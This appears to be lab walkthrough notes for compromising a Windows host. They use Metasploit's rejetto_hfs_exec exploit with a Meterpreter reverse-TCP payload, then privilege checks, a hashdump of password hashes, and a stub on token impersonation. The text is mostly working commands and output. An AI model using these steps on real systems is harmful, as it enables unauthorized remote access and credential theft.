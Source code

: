 ```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.16.163
setg RHOST 10.2.16.163
workspace -a Impersonate
db_nmap -sV 10.2.16.163
```

```bash
80/tcp   open  http          HttpFileServer httpd 2.3
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Exploitation / Meterpreter x64

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
getuid
	Server username: NT AUTHORITY\LOCAL SERVICE
	
getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege # Token Impersonation can be performed
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege

hashdump # try to check if the user have sufficient privileges
```

### Privilege Escalation

#### [Incognito](https://www.offsec.com/metasploit-unleashed/fun-incognito/)
